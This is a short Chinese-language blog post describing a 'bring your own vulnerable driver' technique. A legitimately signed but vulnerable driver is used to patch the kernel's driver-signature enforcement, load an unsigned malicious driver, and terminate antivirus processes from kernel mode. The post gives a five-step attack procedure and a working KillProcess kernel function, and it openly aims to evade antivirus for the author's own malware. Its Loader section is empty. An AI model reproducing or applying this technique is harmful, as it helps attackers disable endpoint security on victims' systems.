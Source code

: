 # VulnBins的利用 \(vuln driver\)

## 简介

挺久没水博客了，今个简单写点，现在的杀软越来越"现代化"了，老是尝试免杀已有木马使我疲惫，干脆想重一劳永逸的解决办法，\(自写C2 狗头\),当然这是个体力活，这篇文件简单介绍下白漏洞驱动带起黑驱动，直接从内核干掉杀软。

## 流程

1. 找一个存在任意文件读取的漏洞驱动
2. 加载驱动并漏洞利用修改内核DES位\(作用于驱动签名校验\)
3. 加载黑驱动
4. 漏洞利用改回原值
5. 卸载白驱动

### 代码片段

### 鲨进程 驱动片段

获取当前进程EPROCESS,遍历ActiveProcessLinks获取和判断进程,符合条件就给扬了,当然最好用点强杀手段。

```text
BOOLEAN KillProcess(ULONG PID)
{
	NTSTATUS ntStatus = STATUS_SUCCESS;
	PVOID hProcess;
	PEPROCESS pEprcess;
	ntStatus = PsLookupProcessByProcessId(PID, &pEprcess);

	if (NT_SUCCESS(ntStatus))
	{
		if (ObOpenObjectByPointer((PVOID)pEprcess, 0, NULL, 0, NULL, KernelMode, &hProcess) != STATUS_SUCCESS)
			{return FALSE;}
		ZwTerminateProcess((HANDLE)hProcess, STATUS_SUCCESS);
		ZwClose((HANDLE)hProcess);
		return TRUE;
	}
	return FALSE;
};

```

### Loader

```text

```



